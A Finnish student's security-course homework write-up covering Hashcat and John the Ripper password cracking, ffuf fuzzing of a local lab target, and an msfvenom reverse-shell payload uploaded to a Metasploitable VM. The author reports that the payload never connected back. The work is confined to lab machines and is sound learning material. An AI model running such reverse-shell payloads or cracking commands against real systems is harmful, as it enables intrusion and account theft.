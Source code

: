 # Lue ja tiivistä

- Fuzzer: Voi löytää URL-domaineista piilotettuja sivuja ja domaineja joita voi tarkastella. Teknisesti tätä samaa työtä voi tehdä manuaalisesti, mutta se on moninkertaisesti nopeampaa käyttäen [ffuffin](https://github.com/ffuf/ffuf) kaltaista työkalua

- Hashcat: Nykyaikana on todella harvinaista löytää salasanaa tallennettuna raakatiedostona serverillä, sen sijaan monet serverit kääntävät talletetut salasanat hasheiksi tietynlaisilla algorithmeilla. Internetin mukaan [Bcrypt](https://www.npmjs.com/package/bcrypt), joka on kehitetty [Blowfishistä](https://en.wikipedia.org/wiki/Blowfish_(cipher)), on yksi käytetyimmistä salasana-hasheista nykyaikana. Hashcat yrittää tunnistaa bruteforce-metodilla sanaa, jonka hash vastaa sille syötettyä hashia, näin avaten hashin sisältämän salasanan.

- [John](https://www.openwall.com/john/) the Ripper on samankaltainen työkalu, mutta Johnilla voi kokeilla suoria sanakirjahyökkäyksiä esimerkiksi .zip tiedostojen suojauksiin.

# A) Asenna Hashcat ja kokeile toimivuutta murtamalla esimerkkisalasana

Hashcatin asennusta ei tarvinnut omassa tapauksessa tehdä, sillä Kali Linuxin mukana tulee Hashcatin versio 6.2.6

![image](https://github.com/konetoivonen/laksyt/assets/164856618/740085e3-e0c1-4b3b-94d9-104b3587c1c0)

Ladataan salasanakirjasto Githubista, itse olen koko repon ladannut aikaisemmin HackTheBoxia tehdessä, niin nappaan vain reposta tarvittavan tekstitiedoston, ja liitän sen luotuun "Hashed" kansioon

![image](https://github.com/konetoivonen/laksyt/assets/164856618/b95a6de6-5265-4bd0-a69e-926bfe8e01eb)

Aloitetaan esimerkkisalasanan hashin murtaminen seuraavalla komennolla:

    hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Hetken kuluttua saadaan vastaus:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/08a225b3-2a65-4ee5-983c-d14d3deecef2)

Salasana on siis:

    summer


# B) Ratkaise dirfuzt-1 

Laitetaan dirfuzt-1 päälle

![image](https://github.com/konetoivonen/laksyt/assets/164856618/37b849e1-68db-464b-b325-79ebc64ea366)

Laitetaan ffuzzeri fuzzaamaan

![image](https://github.com/konetoivonen/laksyt/assets/164856618/8e7126da-b3f5-4160-95cc-9e0a9bab672e)

Tuloksia tutkiessa olin aluksi hieman hukassa siitä, miten oikea sivu pitäisi löytää kaiken tämän joukosta ja vaikka ffuffissa on todella laajat filtteriasetukset, en niitä jaksanut säätää, sillä huomasin tuloksia selatessa, että viidellä sivulla oli sanamäärä 6, kun taas lopuilla oli 9, joten filtteröin ne terminaalin Find komennolla ja löysin sivut, jotka kun avasi, sai kyseisen viestin

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c32e24e4-1ce2-43ba-a5bb-066a5bf11caa)

Näitä sivuja olivat siis: 

    127.0.0.2:8000/wp-admin
    127.0.0.2:8000/.git/config
    127.0.0.2:8000/.git/HEAD
    127.0.0.2:8000/.git/index
    127.0.0.2:8000/.git/logs/

Pakko sanoa, että oma ratkaisuni on sen verran outo, etten ole varma onko ratkaisuni edes oikein, mutta ainakin sivut näyttävät kyseisen viestin;

    You found it! FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}

Joten merkisten sen vuoksi tehtävän tehdyksi. Odotan innolla päästä näkemään muiden ratkaisuja ja katsomaan kuinka muut ratkaisivat kyseisen tehtävän!

# C)

Kali Linuxia käyttäessä huomaa, että John the Ripper on jo asennettu, joten tarkistetaan sen olemassaolo ja ladataan esimerkkimateriaali 'wget'-komennolla

![image](https://github.com/konetoivonen/laksyt/assets/164856618/daab3fbf-a4a7-419a-a1c2-5e57a0ecf899)

Sen jälkeen huomataan, että .zip tiedosto on salasanasuojattu, ohjeen mukaisesti muunnetaan John the Ripper-työkalulla salasanasuojattu .zip tiedosto .zip.hash tiedostoksi ja laitetaan John the Ripper työstämään annettua .hash tiedostoa

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fead3699-f0b2-42e8-b039-af83213c5e55)

Huomataan, että salasana on 

    butterfly

Puretaan arkisto annetulla salasanalla ja avataan sisältö

![image](https://github.com/konetoivonen/laksyt/assets/164856618/d564a86d-f427-4ffc-8888-0e21003c224c)

# D)

Basic Content Discovery:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/38fd4955-4752-4d53-92fc-ef4277124030)

Content Discovery With Recursion:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/1ef30fd0-41d4-4c21-bd14-1e7360ca50f0)

Content Discovery With File Extensions:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/5bc23af2-5c55-4d0f-b492-559cc244c2a4)

No 404 Status:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fe704330-35e7-43a3-9352-886db739b7be)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/74b71945-3326-4f2a-96d1-d49ffd061863)

Param mining:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/66ce3daf-438f-42ba-934a-81af1f961100)

Rate Limited:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/a9894abd-2d7a-4a1e-85ef-3045a552d19f)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c8ae648a-fb58-4fa6-8d1e-9560812a715f)

Subdomains - Virtual Host Enumeration

![image](https://github.com/konetoivonen/laksyt/assets/164856618/4bbdb919-7172-4bb9-8c6a-cb7ace1ef8fb)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/ea60e6a9-75bd-42e3-8fd5-58a39329e77d)

# e) 


Tein Metasploitilla seuraavannäköisen haittaohjelman

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15  LPORT=4444 -f elf > shell-x64.elf

Muodostin FTP-yhteyden Metasploitable-koneeseen ja siirsin tiedoston koneelle "put"-komennolla


![image](https://github.com/konetoivonen/laksyt/assets/164856618/fabea6dd-d4ae-4901-8ce4-18075ef09a5b)


Jotta tiedostosta voidaan tehdä ajettava executable, muodostetaan myös erillinen SSH-yhteys koneeseen


![image](https://github.com/konetoivonen/laksyt/assets/164856618/f0f21cd0-ce8e-40c0-9fe9-a93ad7b79345)

Tehdään seuraavalla komennolla .elf-tiedostosta ajettava tiedosto:

    msfadmin@metasploitable:~$ chmod +x shell2-x64.elf

Tässä kohdassa oma kokeilu jäi tähän. Sain siirrettyä tiedoston, sain tehtyä siitä ajettavan binääritiedoston, mutta kun ajan sen, kone näyttää tyhjää eikä TCP-listenerin taakse ilmesty ikinä Meterpreter-sessiota. 

Tarkistin, että arkkitehtuuri on annettu oikein ja rakennettu oikein. Tiedosto myös selkeästi ajaa koneella, mutta se ei vain anna Kali-koneelle TCP-instanssia. En ymmärrä mitä teen väärin ja näin 00:54 en yksinkertaisesti kykene selvittämään mikä mättää enempää. On tätä työstetty kuitenkin jo ainakin 5 tuntia.

# f)

Tämän koneen kanssa säätö kyllä ärsyttää aika paljon, mutta alla asennettu virtuaalikone Windows 10-käyttöjärjestelmällä


![image](https://github.com/konetoivonen/laksyt/assets/164856618/0b54a783-b2ef-4487-8211-21236df92219)


# g)

Remminan avulla sain muodostettua juuri-luotuun Windows-virtuaalikoneeseen yhteyden RDP:n kautta. Ongelmana oli aluksi, etten ollut laittanut RDP-toimivuutta päälle Virtualboxin asetuksista, jonka vuoksi yhteys ei muodostunut. Raksutin päätä ainakin tunnin kunnes päätin käydä ulkona, palasin sisälle ja katsoin asetuksia ja huomasin että koneen asetuksissa "Remote Desktop Server" oli pois päältä. Kun asensin VirtualBox-lisäosat jotka mahdollistivat toimivuuden ja laitoin sen päälle, yhteys muodostui ilman ongelmia.


![image](https://github.com/konetoivonen/laksyt/assets/164856618/b1bd928e-1aed-4b15-acb0-99f3fa33335b)





